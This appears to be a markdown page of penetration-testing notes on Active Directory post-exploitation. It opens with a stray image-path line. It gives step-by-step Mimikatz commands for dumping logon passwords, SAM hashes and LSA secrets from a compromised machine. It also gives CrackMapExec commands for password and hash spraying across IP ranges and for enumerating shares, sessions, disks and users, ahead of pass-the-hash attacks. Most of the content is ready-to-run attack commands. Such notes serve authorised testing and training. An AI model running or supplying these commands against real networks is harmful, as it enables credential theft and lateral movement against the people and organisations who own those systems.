 **Credential Dumping with Mimikatz**
- Download the binary file into the compromised machine.
- Open a CMD, navigate to the downloaded folder and execute the exe file. ./mimikatz.exe
- Run the debug mode : `privilege::debug` . The debug means that it's allowing us to debug a process that we wouldn't otherwise have access to. Example: Dump information out of memory.
- Dump the logon password.
	- `sekurlsa::logonpassword`
- Dump the SAM hashes
	- `lsadump::sam`
- Dump the LSA
	- `lsadump::lsa /patch`
	
**SwisArmy CrackMapExec Intro**
- A post exploitation tool that helps automate assessing the security of large Active Directory Networks
- Available Protocols : ldap, mssql, smb, ssh, winrm <br> <br>

**CrackMapExec Password Policy Checkup**
- Before performing brute force attack using crackmapexec, it is always handful to analyze its password policy, so that we do not logout the users from their computer. It also helps on [generating password](https://github.com/nirajkharel/PasswordCracking/blob/main/README.md) as well.
- `crackmapexec smb IP --pass-pol -u '' -p ''`


**SwisArmy CrackMapExec Password Spraying**
- Spray credentials to IP range
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --no-bruteforce`
  - It will also show if we have an admin access, if it has a admin access, it will show (Pwn3d!) message.
- Spray different users and password combination
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u usernames.txt -p passwords.txt --no-bruteforce`
- Spray Hashes to IP range
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -H hashes.txt --no-bruteforce`
- By default CrackMapExec exit after a successfull login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. <br><br>

**SwisArmy CrackMapExec ENUM 1**
- Use smb modules to do some enumeration for the shares
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --shares`
  - It will provide the share name, permissions and remarks
  - We can follow the result gained by it using SMBCLIENT to access the shares after this.
- Sessions
  - Take a look at a sesions and see if they is any sessions going on which we have access.
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --sessions`
- Enumerate Disks
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --disks`
- Logged on Users
  - See if we have any logged on users in the network
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --loggedon-users`
  - If we are a local admin, but we might not be a domain admin, if the logged on users are domain admin we will be able to dump the hashes and can perform Pass The Hash attack and get a sessions.
- Get all users
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --users` <br><br>
